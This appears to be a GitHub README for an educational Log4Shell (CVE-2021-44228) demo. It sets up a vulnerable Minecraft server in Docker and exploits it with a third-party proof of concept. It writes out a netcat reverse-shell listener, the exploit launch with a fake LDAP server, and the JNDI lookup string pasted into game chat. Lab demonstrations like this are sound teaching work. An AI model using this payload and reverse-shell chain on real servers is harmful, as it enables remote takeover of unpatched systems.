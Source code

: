 # Log4Shell (CVE-2021-44228) minecraft demo
This demo is used at education fairs to give potential future students an idea of the cybersecurity department at HTL Villach and on how everyday applications can be exploited

## Attacker
The attacker in this scenario is using the PoC by kozmer. https://github.com/kozmer/log4j-shell-poc
All credit belongs to them. 
**Note:** All commands need to be executed in attacker/

#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory. 
```py
$ python3 poc.py --userip <ip of docker-host> --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://<ip of docker-host>:1389/a}

Listening on 0.0.0.0:1389
```


This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>

## Victim
On the victim instance we are using an outdated and therefore [vulnerable version of JDK (jdk1.8.0_20) ](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).

#### Initial setup


To get our Minecraft server running we have to build our Docker image and run it.

**Note:** For a successful build you need to obtain your own copy of the Minecraft Vanilla 1.8.8 Server *(can't be shared because of Mojang's EULA)*
A possible source could be [MCVERSIONS.NET](https://mcversions.net/download/1.8.8)

After obtaining the file save it in victim/ as server.jar 

```docker
cd target/
docker build target/ -t minecraft-demo
```

#### Running the vulnerable server
Run the vulnerable Minecraft server we just built using docker
```
docker run --name vulnerable-server -p 25565:25565 minecraft-demo
```
It's likely that your container freezes or gets stuck after exploitation. In that case you can kill it using the following command:
```
docker kill vulnerable-server
```

#### Exploiting the server

To exploit the vulnerabilty simply send the string provided by the *poc.py* in the game chat.
```
${jndi:ldap://<ip of docker-host>:1389/a}
```
![image](https://github.com/felixslama/log4shell-minecraft-demo/assets/79058712/b3cc9c19-ca14-456c-bf7f-7246bb6adf58)
